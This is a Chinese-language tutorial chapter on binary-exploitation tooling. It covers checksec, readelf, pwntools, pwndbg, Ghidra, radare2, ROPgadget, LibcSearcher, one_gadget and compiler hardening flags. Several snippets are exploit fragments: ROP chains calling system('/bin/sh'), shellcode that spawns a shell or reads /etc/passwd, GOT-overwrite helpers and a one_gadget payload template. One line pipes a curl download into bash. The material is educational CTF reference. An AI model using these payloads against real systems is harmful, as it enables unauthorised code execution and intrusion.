



## 10. 常用工具和技巧

前九节分别讲解了栈溢出、格式化字符串、整数溢出、UAF、堆利用、Shellcode、ret2libc、GOT覆写和信息泄露等核心技术。本节将这些技术落地所需的工具链做系统梳理——从二进制分析到漏洞利用开发，从调试验证到远程交互，每一步都有对应的工具支撑。

工具选择的原则：**不要试图记住所有命令，而是理解每个工具的设计哲学和擅长场景，需要时快速查阅。** 下面按工作流阶段组织，从拿到二进制文件开始，到最终拿到shell结束。



### 10.1 二进制静态分析工具集

拿到一个可疑二进制文件后，第一步永远是"看清楚它是什么"。

#### 10.1.1 file — 快速识别文件类型

```bash
# 基本用法
file ./vuln
# 输出: ./vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
#        dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
#        for GNU/Linux 3.2.0, not stripped

# 关键信息解读：
# - ELF 64-bit LSB → 64位小端序，对应 context.arch = 'amd64'
# - dynamically linked → 动态链接，可能存在ret2libc机会
# - not stripped → 保留符号表，可直接查看函数名
# - stripped → 去除符号，需要逆向恢复函数名
```

`file` 的输出直接决定了 pwntools 中 `context.arch` 和 `context.os` 的设置。64位用 `amd64`，32位用 `i386`。

#### 10.1.2 checksec — 保护机制一目了然

checksec 是漏洞利用开发的第一步，它告诉你哪些保护机制被启用，直接影响利用策略的选择。

```bash
# 安装（如果系统没有）
# Ubuntu/Debian: sudo apt install checksec
# 或者从源码: git clone https://github.com/slimm609/checksec.sh.git

checksec --file=./vuln

# 典型输出：
# RELRO           STACK CANARY      NX            PIE             RPATH    RUNPATH    Symbols    FORTIFY    Fortified    Fortifiable
# Partial RELRO   No canary found   NX disabled   No PIE          No RPATH No RUNPATH 75 Symbols No         0            0
```

各保护机制与利用策略的对应关系：

| 保护机制 | 启用时的影响 | 绕过思路 |
|---------|------------|---------|
| **Canary** | 栈溢出前需绕过/泄露canary值 | 泄露canary（格式化字符串、信息泄露）、覆盖canary高位字节（爆破）、利用其他漏洞绕过栈保护 |
| **NX (DEP)** | 栈上不可执行代码 | ret2libc、ROP、ret2syscall、ret2csu |
| **PIE (ASLR)** | 程序基址随机化 | 先泄露基址再计算偏移、信息泄露、部分覆写 |
| **Full RELRO** | GOT表只读，不可覆写 | 放弃GOT覆写，改用其他技术（如堆利用、格式化字符串直接写任意地址） |
| **Partial RELRO** | GOT表可写 | GOT覆写（第8节） |
| **No canary + NX off** | 最简单场景 | 直接栈溢出+shellcode（第1、6节） |



#### 10.1.3 readelf — ELF结构深入解析

readelf 是理解 ELF 文件内部结构的核心工具，远比 `file` 提供的详细。

```bash
# 查看ELF头
readelf -h ./vuln
# 关键字段：Entry point (程序入口点)、Class (32/64)、Type (EXEC/DYN)

# 查看所有节头
readelf -S ./vuln
# 关键节：.text (代码)、.data (已初始化数据)、.bss (未初始化数据)、
#         .got.plt (GOT表)、.plt (PLT表)

# 查看程序头（段信息）
readelf -l ./vuln
# 关键：LOAD段的权限（R/W/E），判断哪些段可执行

# 查看符号表（未strip的二进制）
readelf -s ./vuln | grep -E 'FUNC|OBJECT' | head -20

# 查看动态链接信息
readelf -d ./vuln
# NEEDED字段列出依赖的共享库，如 libc.so.6

# 查看重定位表
readelf -r ./vuln
# R_X86_64_GLOB_DAT / R_X86_64_JUMP_SLOT 类型即GOT条目
```

实际渗透测试中的典型工作流：

```bash
# 步骤1：确认是动态链接（ret2libc的前提）
readelf -d ./vuln | grep NEEDED
# 输出: 0x0000000000000001 (NEEDED) Shared library: [libc.so.6]

# 步骤2：确认GOT表位置（GOT覆写的前提）
readelf -r ./vuln | grep -E 'printf|system|puts'

# 步骤3：确认是否有调试信息
readelf -S ./vuln | grep debug
# 有debug节说明编译时带-g选项，可用更多调试信息
```

#### 10.1.4 objdump — 反汇编利器

```bash
# 反汇编整个可执行段
objdump -d ./vuln | less

# 反汇编指定函数（未strip时）
objdump -d ./vuln | sed -n '/<main>:/,/^$/p'

# 查看指定地址的指令
objdump -d ./vuln | grep -A5 '401136:'

# 反汇编带源码（需要-g编译）
objdump -dS ./vuln | less

# 查看所有字符串（比strings更精确，可定位到节）
objdump -s -j .rodata ./vuln
```

objdump 与 IDA/Ghidra 的区别：objdump 是线性反汇编，可能被花指令干扰；IDA/Ghidra 使用递归下降反汇编，抗干扰能力更强。在 CTF 快速分析中 objdump 足够；真实漏洞分析需要 IDA/Ghidra。

#### 10.1.5 strings — 快速发现敏感信息

```bash
# 基本用法：打印所有可打印字符串
strings ./vuln

# 指定最小长度
strings -n 6 ./vuln

# 显示字符串在文件中的偏移地址
strings -t x ./vuln
# 输出: 1040 /bin/sh
# 偏移0x1040处有"/bin/sh"字符串，可直接在ROP中使用

# 搜索特定字符串
strings ./vuln | grep -i 'flag\|password\|secret\|key'

# 搜索libc中的字符串
strings /lib/x86_64-linux-gnu/libc.so.6 | grep '/bin/sh'
# 找到偏移后，配合libc base address计算绝对地址
```

#### 10.1.6 nm — 符号表查看

```bash
# 查看所有符号
nm ./vuln | head -30

# 只看函数符号（T = 在text段定义的函数）
nm ./vuln | grep ' T '

# 查看未定义符号（需要从libc解析的）
nm ./vuln | grep ' U '

# 按地址排序
nm -n ./vuln | head -20
```

### 10.2 pwntools — 漏洞利用开发框架

pwntools 是二进制漏洞利用的事实标准框架。它不是一个单点工具，而是涵盖了从数据处理、进程交互、ROP链构建到远程通信的完整开发栈。

#### 10.2.1 环境配置与基础设置

```bash
# 安装
pip install pwntools

# 如果使用pwntools提供的工具（ROPgadget, checksec等）
pip install pwntools
# 安装后可直接使用: pwn checksec ./vuln
```

```python
from pwn import *

# ============ 架构与环境设置 ============
# 这些设置会影响p64/u64的字节序、shellcode的生成等
context.arch = 'amd64'       # 'i386', 'amd64', 'arm', 'mips' 等
context.os = 'linux'         # 'linux', 'windows'
context.endian = 'little'    # 'little', 'big'（绝大多数x86/x64是小端）
context.log_level = 'debug'  # 'debug'(最详细), 'info', 'warn', 'error'
context.terminal = ['tmux', 'splitw', '-h']  # GDB attach时的终端

# 一次性设置多个参数
context.update(arch='amd64', os='linux', log_level='debug')
```

#### 10.2.2 数据打包与解包

数据打包是exploit编写中最频繁的操作——你需要把地址、偏移量转换成小端序字节串。

```python
from pwn import *

# ============ 打包 ============
p64(0x401234)          # 64位: b'\x34\x12\x40\x00\x00\x00\x00\x00'
p32(0x401234)          # 32位: b'\x34\x12\x40\x00'
p16(0x1234)            # 16位: b'\x34\x12'
p8(0x41)               # 8位:  b'\x41'

# 负数处理
p64(-1)                # = p64(0xffffffffffffffff)
p32(-1)                # = p32(0xffffffff)

# ============ 解包 ============
u64(b'\x34\x12\x40\x00\x00\x00\x00\x00')  # = 0x401234
u32(b'\x34\x12\x40\x00')                    # = 0x401234

# ============ 实战技巧：处理残留字节 ============
# 有时recv只能拿到7字节（被截断），需要补\x00
leak_bytes = p.recv(7)
leak_addr = u64(leak_bytes + b'\x00')

# ============ 填充数据生成 ============
cyclic(100)            # 生成100字节的de Bruijn序列（找偏移用）
cyclic_find(0x6161616b) # 找到目标子串在序列中的偏移
fit({0x41414141: offset}) # 指定偏移位置的值

# ============ 地址打印辅助 ============
# 方便在调试时识别偏移
cyclic(200)            # 写入后观察崩溃时RIP的值
cyclic_find('laaa')    # 偏移 = ?
```

#### 10.2.3 进程与远程连接

```python
from pwn import *

# ============ 本地进程 ============
p = process('./vuln')                    # 直接运行
p = process(['./vuln', 'arg1', 'arg2'])  # 带参数
p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})  # 指定libc

# ============ 远程连接 ============
p = remote('challenge.example.com', 1337)
p = remote('127.0.0.1', 1337, typ='udp')  # UDP连接

# ============ 附加GDB（调试神器） ============
p = process('./vuln')
gdb.attach(p, '''
    break *0x401234
    break main
    continue
''')

# GDB + 自动断在main
p = process('./vuln')
gdb.attach(p, gdbscript='break main\nc')

# ============ 核心：GDB脚本编写 ============
gdb_script = '''
set follow-fork-mode child    # 跟踪fork出的子进程（web服务常用）
set disassembly-flavor intel  # Intel语法（非AT&T）
break *0x401234               # 断在关键指令
break *main+100               # 断在main偏移100处
c                             # continue
'''
gdb.attach(p, gdbscript=gdb_script)

# ============ SSH连接（远程调试） ============
ssh_conn = ssh('user', 'challenge.example.com', password='pass')
p = ssh_conn.process('./vuln')
```

#### 10.2.4 数据收发

```python
from pwn import *

# ============ 接收 ============
p.recv(n)                # 接收n字节（阻塞直到收到n字节或EOF）
p.recvline()             # 接收一行（直到\n）
p.recvline_contains(b'keyword')  # 接收包含指定内容的行
p.recvuntil(b'$ ')       # 接收直到出现指定字节串
p.recvall()              # 接收所有数据（直到EOF）
p.recvrepeat(5)          # 重复接收5秒

# ============ 发送 ============
p.send(data)             # 发送原始数据
p.sendline(data)         # 发送数据 + 换行符（\n）
p.sendafter(b'$ ', data) # 等待出现'$ '后发送（= recvuntil + send）
p.sendlineafter(b': ', data)  # 等待出现': '后发送行

# ============ 交互 ============
p.interactive()          # 进入交互模式（手动操作shell）
p.close()                # 关闭连接

# ============ 实战模式：日志控制 ============
context.log_level = 'debug'   # 看到所有收发数据，调试必备
context.log_level = 'info'    # 正常输出（默认）
```

#### 10.2.5 ELF分析与符号解析

```python
from pwn import *

# ============ 加载ELF ============
elf = ELF('./vuln')

# 获取函数地址
elf.symbols['main']      # main函数地址
elf.symbols['vulnerable'] # 自定义函数地址
elf.bss()                # .bss段起始地址（常用于写入数据）
elf.bss(0x100)           # .bss段+偏移（避免覆盖已有数据）

# GOT和PLT
elf.got['printf']        # printf的GOT条目地址（存放实际地址的地方）
elf.plt['printf']        # printf的PLT桩地址（跳转到GOT的代码）

# 查找特定字节序列（找"/bin/sh"等）
elf.search(b'/bin/sh')   # 在ELF中搜索字符串并返回地址
next(elf.search(b'/bin/sh'))  # 取第一个结果

# ============ libc分析 ============
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.symbols['system']   # system函数在libc中的偏移
libc.search(b'/bin/sh')  # "/bin/sh"字符串在libc中的偏移

# 关键计算：实际地址 = libc_base + 偏移
# libc_base通过泄露某个GOT条目，减去该函数在libc中的偏移得到
```

#### 10.2.6 ROP链构建

ROP（Return-Oriented Programming）是绕过NX保护的核心技术。pwntools 提供了自动化的ROP链构建能力。

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# ============ 基本ROP ============
rop = ROP(elf)

# 查找gadget
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]  # pop rdi; ret
pop_rsi = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]  # 常见于64位
ret = rop.find_gadget(['ret'])[0]  # 单独的ret（栈对齐用）

# 手动构建ROP链（调用system("/bin/sh")）
payload = b'A' * offset          # 填充到返回地址
payload += p64(pop_rdi)          # pop rdi; ret
payload += p64(next(elf.search(b'/bin/sh')))  # "/bin/sh"地址
payload += p64(elf.plt['system']) # 调用system

# ============ 使用ROP对象自动生成 ============
rop = ROP(elf)
rop.call('printf', [elf.got['printf']])   # printf(printf@GOT) — 泄露地址
rop.call('main')                           # 返回main，二次利用
print(rop.dump())                          # 打印ROP链结构
payload = flat({offset: rop.chain()})      # 生成payload

# ============ ret2csu（通用gadget） ============
# 当二进制很小时，可用__libc_csu_init中的通用gadget
# 64位ELF几乎都有这个函数
# 通用gadget可控制rdi, rsi, rdx（函数前三个参数）
```

#### 10.2.7 Shellcraft — Shellcode生成

```python
from pwn import *

# ============ 基本shellcode ============
shellcode = asm(shellcraft.sh())               # /bin/sh shellcode
shellcode = asm(shellcraft.execve('/bin/sh'))   # execve("/bin/sh", NULL, NULL)
shellcode = asm(shellcraft.cat('/etc/passwd'))   # cat /etc/passwd

# ============ 64位 vs 32位 ============
context.arch = 'amd64'
shellcode_64 = asm(shellcraft.sh())  # 64位shellcode

context.arch = 'i386'
shellcode_32 = asm(shellcraft.sh())  # 32位shellcode

# ============ 汇编/反汇编 ============
code = asm('mov rax, 0x1; mov rdi, 1; syscall')  # 直接汇编
disasm(code)                                       # 反汇编

# ============ 多阶段shellcode（受限空间场景） ============
# stage1: 读取更大的shellcode
stage1 = asm(f'''
    xor rax, rax
    xor rdi, rdi
    lea rsi, [rip + stage2]
    mov rdx, 0x100
    syscall
    stage2:
''')

# ============ 避免坏字符 ============
# 某些漏洞场景不允许\x00（null）、\x0a（换行）等字节
shellcode = asm(shellcraft.sh())
if b'\x00' in shellcode:
    log.warning("Shellcode contains null bytes!")

# 手动重写避免null的方法：用xor替代mov reg, 0
# mov rax, 0  →  xor rax, rax
# push 0      →  xor rax, rax; push rax
```

#### 10.2.8 常用辅助函数

```python
from pwn import *

# ============ 偏移查找（必会） ============
# 方法1：de Bruijn序列
payload = cyclic(200)
# 发送后崩溃，观察RIP = 0x6161616c
offset = cyclic_find(0x6161616c)  # = 44

# 方法2：直接指定子串
offset = cyclic_find('laaa')

# ============ 格式化字符串辅助 ============
# 自动计算格式化字符串payload
fmt = FmtStr(execute_fmt=send_fmt)  # send_fmt是发送函数
fmt.write(got_addr, system_addr)    # 写入system地址到GOT
fmt.execute_writes()                # 执行所有写入

# ============ DynELF（远程libc版本不确定时） ============
# 需要一个能泄露任意地址内容的漏洞
def leak(addr):
    # 利用格式化字符串或其他漏洞泄露addr处的内容
    payload = ...  # 构造泄露payload
    p.send(payload)
    return p.recv(4)  # 32位返回4字节

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')  # 在libc中找system地址

# ============ MemLeak（组合泄露） ============
leak = MemLeak(lambda addr: elf.read(addr, 4))  # 基于ELF的内存泄露
```

### 10.3 GDB深度调试

GDB 是动态分析的核心。裸 GDB 功能有限，安装增强插件后效率提升数倍。

#### 10.3.1 插件选择：GDB增强生态

| 插件 | 特点 | 适用场景 |
|-----|------|---------|
| **pwndbg** | Pwntools团队出品，漏洞利用专用命令 | CTF、exploit开发（推荐首选） |
| **GEF** | 功能全面，堆分析强大 | 堆利用研究、日常工作 |
| **peda** | 老牌经典，轻量 | 配置简单的备选方案 |

```bash
# 安装pwndbg（推荐）
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# 安装GEF
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"

# 安装peda
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

#### 10.3.2 pwndbg核心命令

```bash
# ============ 上下文查看 ============
context          # 显示寄存器、代码、栈（每次断下自动显示）
context reg      # 只显示寄存器
context code     # 只显示反汇编
context stack    # 只显示栈
context backtrace # 显示调用栈

# ============ 内存查看 ============
hexdump $rsp 64           # 以hexdump形式查看栈（更直观）
telescope $rsp 20         # 递归解引用栈上的指针（pwndbg特色）
vmmap                     # 查看所有内存映射（非常有用！）
vmmap libc               # 查看libc的映射区域
search -s '/bin/sh'       # 在内存中搜索字符串

# ============ 断点 ============
break *0x401234           # 硬断点
break *main+42            # 函数偏移断点
watch *0x601020           # 硬件监视点（GOT变化时断下）
tbreak *0x401234          # 一次性断点（命中后自动删除）

# ============ 执行控制 ============
ni                        # 单步（不进入函数）
si                        # 单步（进入函数）
finish                    # 执行到当前函数返回
until *0x401234           # 执行到指定地址
c                         # 继续执行

# ============ 堆分析（pwndbg/GEF） ============
heap                       # 显示堆概况（bins、chunk信息）
bins                       # 查看所有bins（fastbin、unsorted等）
vis_heap_chunks            # 可视化堆chunk
malloc_chunk 0x55550010    # 查看指定chunk的详细信息
```

#### 10.3.3 GDB自动化脚本

在 pwntools 中嵌入 GDB 脚本，实现断点触发时自动执行分析：

```python
from pwn import *

p = process('./vuln')

gdb_script = """
set pagination off
set confirm off

# 断在输入读取后（观察溢出效果）
break *vulnerable+42
commands
    silent
    printf "=== Stack after overflow ===\\n"
    x/20gx $rsp
    printf "=== Canary value ===\\n"
    x/gx $rbp-8
    continue
end

# 断在system调用时（确认利用成功）
break *system
commands
    silent
    printf "=== system called with: ===\\n"
    x/s $rdi
    continue
end

# 自动继续
continue
"""

gdb.attach(p, gdbscript=gdb_script)

# 发送exploit payload
p.sendline(payload)
p.interactive()
```

#### 10.3.4 远程调试（核心场景）

当你在本地复现远程服务漏洞时，需要用相同的libc：

```bash
# 步骤1：下载远程libc（通过info leak或题目附件）
# 步骤2：使用patchelf指定libc
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./vuln
patchelf --set-rpath . ./vuln

# 步骤3：正常调试
gdb ./vuln
```

```python
# pwntools方式：用指定libc启动进程
p = process('./vuln', env={'LD_PRELOAD': './libc.so.6'})

# 或者设置ld路径
p = process('./vuln', env={
    'LD_PRELOAD': os.path.abspath('./libc.so.6'),
    'LD_LIBRARY_PATH': os.path.abspath('.')
})
```

### 10.4 Ghidra — 逆向分析利器

当二进制被 strip 或需要深入理解复杂逻辑时，Ghidra（NSA开源的逆向工具）是必不可少的。

#### 10.4.1 安装与基本使用

```bash
# 安装（需要JDK 17+）
# 从 https://ghidra-sre.org/ 下载
# 或snap安装
sudo snap install ghidra

# 启动
ghidra
```

Ghidra 的核心工作流：

1. **新建项目** → 导入二进制文件
2. **自动分析** → 选择默认分析选项，点击 Analyze
3. **定位函数** → 函数列表（Symbol Tree → Functions）找到 main 或可疑函数
4. **阅读反编译** → 双击函数，右侧面板显示伪C代码
5. **重命名变量** → 根据理解重命名（右键 → Rename Variable），提高可读性
6. **追踪数据流** → 右键 → References → 查看所有引用

#### 10.4.2 关键逆向技巧

**识别漏洞模式：**

```c
// Ghidra反编译的典型栈溢出漏洞
void vuln(void) {
    char buffer[64];
    gets(buffer);  // 没有长度限制，明显的栈溢出
}

// 格式化字符串漏洞
void vuln(void) {
    char buffer[100];
    fgets(buffer, 100, stdin);
    printf(buffer);  // 直接用户输入作为printf格式串
}

// 堆溢出
void vuln(void) {
    char *buf = malloc(0x40);
    read(0, buf, 0x100);  // 读取0x100到0x40的chunk，堆溢出
}
```

**Ghidra脚本自动化（Ghidra Script Manager）：**

```java
// 查找所有对危险函数的调用
// Script Manager → New Script → Java
import ghidra.program.model.listing.*;
import ghidra.program.model.symbol.*;

public class FindDangerousCalls extends GhidraScript {
    public void run() throws Exception {
        String[] dangerFuncs = {"gets", "strcpy", "sprintf", "scanf", "strcat"};
        FunctionIterator funcs = currentProgram.getFunctionManager().getFunctions(true);
        while (funcs.hasNext()) {
            Function f = funcs.next();
            for (String name : dangerFuncs) {
                if (f.getName().equals(name)) {
                    println("[!] Found call to " + name + " at " + f.getEntryPoint());
                }
            }
        }
    }
}
```

### 10.5 Radare2/Rizin — 命令行逆向

不想开GUI时，Radare2（及其分支Rizin）是命令行逆向的首选。

```bash
# 安装
sudo apt install radare2    # Radare2
# 或 Rizin（更活跃的分支）
git clone https://github.com/rizinorg/rizin && cd rizin && meson build && ninja -C build && sudo ninja -C build install

# ============ 基本分析流程 ============
r2 -A ./vuln               # 启动并自动分析（-A 很关键）

# 分析完成后进入交互模式
[0x00401050]> afl            # 列出所有函数
[0x00401050]> s main         # 跳转到main函数
[0x00401050]> pdf            # 反汇编当前函数（print disassembly function）
[0x00401050]> VV             # 进入可视化模式（图形视图，按p切换）

# ============ 数据查看 ============
[0x00401050]> px 64 @ rsp     # 查看栈（64字节）
[0x00401050]> ps @ 0x402000   # 查看字符串
[0x00401050]> iz              # 列出所有字符串

# ============ 交叉引用 ============
[0x00401050]> axt @ sym.imp.printf  # 谁调用了printf？
[0x00401050]> axt @ sym.imp.gets    # 谁调用了gets？

# ============ 交互式调试 ============
[0x00401050]> db main+42      # 设置断点
[0x00401050]> dc               # 继续执行
[0x00401050]> dr               # 查看寄存器
[0x00401050]> pxr 64 @ rsp     # 递归查看栈（类似telescope）

# ============ Rizin区别 ============
rizin -A ./vuln               # 启动分析
[0x00401050]> aaa              # 更完善的分析（比r2的-A好）
[0x00401050]> s main
[0x00401050]> pdf
```

### 10.6 ROPgadget与ropper — Gadget搜索

ROP链的质量取决于gadget的丰富程度。这两个工具互补使用效果最佳。

#### 10.6.1 ROPgadget

```bash
# 安装
pip install ROPgadget

# 搜索所有gadget
ROPgadget --binary ./vuln

# 搜索特定gadget
ROPgadget --binary ./vuln | grep 'pop rdi'
# 0x0000000000401233 : pop rdi ; ret

ROPgadget --binary ./vuln | grep 'pop rsi'
# 0x0000000000401231 : pop rsi ; pop r15 ; ret

# 搜索libc中的gadget（比二进制更多选择）
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep 'pop rdi'

# 只搜索特定指令
ROPgadget --binary ./vuln --only 'pop|ret'

# 搜索"/bin/sh"字符串
ROPgadget --binary ./vuln --string '/bin/sh'
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --string '/bin/sh'

# 生成ROP chain（自动构建）
ROPgadget --binary ./vuln --ropchain
```

#### 10.6.2 ropper

```bash
# 安装
pip install ropper

# 启动交互模式
ropper -f ./vuln

# 交互模式中搜索
(ropper)> search pop rdi
# [INFO] File: ./vuln
# 0x0000000000401233: pop rdi; ret;

# 搜索带约束的gadget（如：不包含\x00）
(ropper)> search pop rdi --badbytes 00

# 查看gadget详细信息（反汇编）
(ropper)> detail 0x401233

# 加载libc搜索
ropper -f /lib/x86_64-linux-gnu/libc.so.6

# 导出gadget列表
ropper -f ./vuln --save gadgets.json
```

#### 10.6.3 常用Gadget速查表

| 用途 | Gadget | 作用 |
|-----|--------|-----|
| 控制RDI（第一个参数） | `pop rdi; ret` | 64位调用函数必备 |
| 控制RSI（第二个参数） | `pop rsi; pop r15; ret` | 64位双参数调用 |
| 控制RDX（第三个参数） | `pop rdx; ret` / `pop rdx; pop rbx; ret` | 较少见，需csu辅助 |
| 栈对齐 | `ret` | 单独的ret指令，用于16字节栈对齐 |
| 系统调用 | `syscall; ret` | 直接系统调用（ret2syscall） |
| 跳转到寄存器 | `jmp rsp` / `call rsp` | 栈上代码执行（NX off时） |

### 10.7 LibcSearcher — libc版本识别

当远程libc版本未知时，需要通过泄露的函数地址反查libc版本。

```bash
# 安装
pip install LibcSearcher

# 命令行使用
libcsearcher --Leak printf 0xf7e51670 --Leak system 0xf7e12345
# 输出匹配的libc版本
```

```python
from LibcSearcher import *

# 已知泄露的函数地址和偏移
# 例如：泄露了printf的实际地址为 0x7f1234567890
# 已知printf在某libc中的偏移为 0x61c90

# 方式1：已知函数名和实际地址
libc = LibcSearcher('printf', 0xf7e51670)  # 32位场景
# 自动搜索匹配的libc版本

# 方式2：多函数约束（更精确）
libc = LibcSearcher('printf', 0xf7e51670)
libc.add_condition('system', 0xf7e12345)  # 两个条件交叉验证
result = libc.dump()  # 输出匹配的libc版本和所有符号偏移

# 实际工作流：
# 1. 泄露printf@GOT的真实地址
# 2. 用LibcSearcher查libc版本
# 3. 从对应版本的libc中查找system和"/bin/sh"的偏移
# 4. 计算：system_addr = leaked_addr - printf_offset + system_offset
```

**在线替代方案：**

- [libc.blukat.me](https://libc.blukat.me/) — 输入函数名+最后12位，搜索libc版本
- [libc.rip](https://libc.rip/) — 更现代的libc数据库，支持多函数匹配
- [pwntools-search](https://github.com/nicklashersen/pwn-tools/) — 本地libc数据库

### 10.8 one_gadget — 一键拿shell

one_gadget 能在libc中找到"只需一个地址+少量参数就能execve('/bin/sh')"的位置，省去手动构造system("/bin/sh")的ROP链。

```bash
# 安装（需要Ruby）
gem install one_gadget

# 查找libc中的one_gadget
one_gadget /lib/x86_64-linux-gnu/libc.so.6

# 典型输出：
# 0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
#
# 0x4f302 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL
#
# 0x10a2fc execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
```

**使用one_gadget的exploit模板：**

```python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# one_gadget输出的偏移
one_gadget_offset = 0x4f2a5

# 通过信息泄露获取libc基址
libc_base = leaked_system - libc.symbols['system']
one_gadget_addr = libc_base + one_gadget_offset

# 构造payload（比system("/bin/sh")简单得多）
payload = b'A' * offset
payload += p64(one_gadget_addr)  # 直接跳到one_gadget
# 不需要pop rdi、不需要"/bin/sh"地址

# 注意：one_gadget有约束条件（如[rsp+0x40]==NULL）
# 如果约束不满足会崩溃，需要调整栈布局或选择其他one_gadget
```

**one_gadget约束调试：** 如果某个one_gadget在本地可用但远程失败，通常是约束条件在远程环境中不满足。用GDB在调用one_gadget前检查约束：

```gdb
# 假设one_gadget要求[rsp+0x40]==NULL
x/gx $rsp+0x40
# 如果不为0，需要调整栈指针或选择其他one_gadget
```

### 10.9 编译选项与沙箱

#### 10.9.1 防御方：编译时安全选项

理解编译选项是攻防双方的基本功。以下列出与安全相关的关键选项：

```bash
# ============ 完整防护编译 ============
gcc -o safe safe.c \
    -fstack-protector-all \    # 所有函数启用栈保护（canary）
    -D_FORTIFY_SOURCE=2 \      # 缓冲区溢出检查（编译时+运行时）
    -pie -fPIE \               # 位置无关可执行文件（PIE/ASLR）
    -Wl,-z,relro,-z,now \      # Full RELRO（GOT只读）
    -Wl,-z,noexecstack \       # NX（栈不可执行）
    -Wformat -Wformat-security # 格式化字符串警告

# ============ 常见"不安全"编译（漏洞利用练习常用） ============
gcc -o vuln vuln.c                    # 默认选项，Partial RELRO + Canary
gcc -o vuln vuln.c -fno-stack-protector  # 禁用canary
gcc -o vuln vuln.c -z execstack         # 栈可执行（NX off）
gcc -o vuln vuln.c -no-pie              # 禁用PIE
gcc -m32 -o vuln32 vuln.c               # 32位编译

# ============ 编译选项与保护机制对应 ============
```

| 编译选项 | 对应保护 | 默认状态 |
|---------|---------|---------|
| `-fstack-protector` | Stack Canary | 部分函数 |
| `-fstack-protector-all` | Stack Canary（全函数） | 需显式指定 |
| `-fno-stack-protector` | 禁用Canary | — |
| `-z execstack` | 禁用NX（栈可执行） | — |
| `-z noexecstack` | 启用NX | 默认开启 |
| `-no-pie` / `-nopie` | 禁用PIE | 需显式指定 |
| `-pie -fPIE` | 启用PIE | 需显式指定 |
| `-Wl,-z,relro,-z,now` | Full RELRO | — |
| `-Wl,-z,relro` | Partial RELRO | 默认 |
| `-D_FORTIFY_SOURCE=2` | FORTIFY | 需显式指定 |

#### 10.9.2 沙箱绕过技术

真实漏洞利用中，目标进程可能被seccomp限制了系统调用。需要分析沙箱规则，找到可用的系统调用。

```bash
# 安装seccomp-tools
gem install seccomp-tools

# 分析seccomp规则（从运行中的进程）
seccomp-tools dump ./vuln

